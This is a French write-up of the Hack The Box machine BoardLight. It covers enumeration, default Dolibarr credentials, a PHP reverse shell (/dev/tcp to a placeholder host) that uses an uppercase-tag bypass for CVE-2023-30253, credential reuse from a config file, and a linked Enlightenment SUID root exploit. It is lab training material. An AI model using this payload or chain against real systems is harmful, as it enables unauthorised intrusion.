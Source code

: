 ```yaml
---
date: 2024-09-27T22:53:03-05:00
# description: ""
image: "/images/HTB-BoardLight/BoardLight.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: BoardLight"
type: "post"
---
```


* Platforme: Hack The Box
* Lien: [BoardLight](https://app.hackthebox.com/machines/BoardLight)
* Niveau: Facile
* OS: Linux
---

[Lire cet article en anglais](https://scorpiosec.com/posts/htb-boardlight/)

BoardLight débute par la découverte d'un sous-domaine où se trouve une instance Dolibarr, à laquelle nous accédons en utilisant les informations d'identification par défaut. Grâce à un reverse shell PHP couplé à une technique de manipulation des majuscules, nous obtenons notre accès initial. Nous découvrons ensuite un fichier de configuration contenant des identifiants qui nous permettent de prendre le contrôle d'un autre compte. Enfin, nous obtenons les privilèges root en exploitant une vulnérabilité dans Enlightenment.

Address IP cible - `10.10.11.11`

## Balayage

```
./nmap_scan.sh 10.10.11.11 BoardLight
```

**Resultats**

```shell
Running detailed scan on open ports: 22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 23:01 CDT
Nmap scan report for 10.10.11.11
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: board.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.05 seconds
```

Notre scan révèle deux ports ouverts: SSH (22) et HTTP (80), nous ajoutons également `board.htb` au fichier `hosts` pour faciliter l'énumération.

## Enumération

À `http://board.htb/`, nous trouvons un site web pour une société de conseil en cybersécurité. Les boutons ne fonctionnent pas et il n'y a rien de vraiment marquant. 

![BoardLight website](/images/HTB-BoardLight/boardlight_website.png)

Nous essayons de trouver des répertoires cachés mais rien d'intéressant n'est trouvé.

```
gobuster dir -u http://board.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![Directory bruteforcing](/images/HTB-BoardLight/gobuster_cmd.png)

Avec l'énumération des sous-domaines, nous trouvons un sous-domaine valide appelé `crm`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://board.htb -H "Host: FUZZ.board.htb" -ic -fs 15949
```

![Subdomain enumeration](/images/HTB-BoardLight/ffuf_cmd.png)

Sur `http://crm.board.htb/` nous trouvons une page de connexion pour [Dolibarr](https://www.dolibarr.org/).

![Dolibarr ERP](/images/HTB-BoardLight/crm_board.png)

Une simple recherche Google nous permet de découvrir que les identifiants par défaut des instances Dolibarr sont `admin:admin` et en les utilisant nous accédons au tableau de bord.

![Dolibarr default credentials](/images/HTB-BoardLight/Dolibarr_default_creds.png)

![Dolibarr dashboard](/images/HTB-BoardLight/dolibarr_dashboard.png)

Bien que les systèmes CRM, CMS et ERP aient des objectifs différents, ils présentent souvent une vulnérabilité commune: une fois connecté, il est souvent possible d'obtenir un shell en exécutant un code malveillant.

Dans la section `Websites`, nous créons un nouveau site web.

![Dolibarr new website](/images/HTB-BoardLight/new_website.png)

Ensuite, créons une page.

![Dolibarr new page](/images/HTB-BoardLight/new_page.png)

Après la création de la page, il y a un bouton `Edit HTML Source` que nous pouvons utiliser pour ajouter notre code.

![Edit HTML source button](/images/HTB-BoardLight/edit_source.png)

Nous essayons un reverse shell php basique.

```php
<?php system('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"') ?>
```

![Dolibarr reverse shell](/images/HTB-BoardLight/rev_shell1.png)

Après avoir essayé de sauvegarder le code, nous obtenons une erreur, il semble que nous ne puissions pas utiliser `system`. A partir de là, nous pouvons soit trouver une autre méthode pour obtenir un shell, soit essayer de contourner la mesure de sécurité.

![Dolibarr php system error](/images/HTB-BoardLight/error_dolibarr.png)

## Accès Initial

En recherchant les vulnérabilités de Dolibarr, nous trouvons [cette page](https://www.vicarius.io/vsociety/posts/exploiting-rce-in-dolibarr-cve-2023-30253-30254) pour le `CVE-2023-30253` qui nous permet d'obtenir une exécution de code à distance en utilisant une manipulation de majuscules.

Réessayons avec le php en majuscules (PHP).

```php
<?PHP system('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"') ?>
```

![Dolibarr RCE](/images/HTB-BoardLight/Dolibar_rce.png)

Après avoir sauvegardé le code modifié, nous obtenons un shell sous le nom de `www-data`.

![foothold shell](/images/HTB-BoardLight/foothold.png)

En consultant le fichier `passwd`, nous remarquons la présence d'un utilisateur appelé `larissa` et, bien sûr, nous ne pouvons pas accéder à son répertoire personnel.

![larissa user](/images/HTB-BoardLight/larissa_user.png)

Grâce à linpeas, nous trouvons un répertoire de configuration à `/var/www/html/crm.board.htb/htdocs/conf/`.

![linpeas results](/images/HTB-BoardLight/linpeas_results.png)

![conf directory](/images/HTB-BoardLight/conf_directory.png)

En examinant le contenu de `conf.php`, nous obtenons des identifiants.

![dolibar conf credentials](/images/HTB-BoardLight/dolibarr_creds.png)

Avec le mot de passe trouvé, nous accédons au compte de larissa via SSH et nous trouvons le fichier `user.txt` dans son répertoire personnel.

![user flag](/images/HTB-BoardLight/user_flag.png)

## Elévation de Privilèges

Malheureusement, larissa n'est pas autorisée à exécuter sudo.

![sudo command](/images/HTB-BoardLight/sudo_cmd.png)

Exécutons à nouveau linpeas pour trouver des pistes d'escalade de privilèges. Nous trouvons un fichier appelé `enlightenment` appartenant à root avec le bit SUID activé et une référence au [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706).

![SUID on enlightenment binary](/images/HTB-BoardLight/suid-file.png)

[Ici](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main) nous trouvons un PoC pour la vulnérabilité. Après avoir exécuté le script (exploit.sh) sur la cible, nous obtenons les privilèges root et `root.txt` est accessible dans `/root`.

![root flag](/images/HTB-BoardLight/root_flag.png)

Merci d'avoir pris le temps de lire cet article!

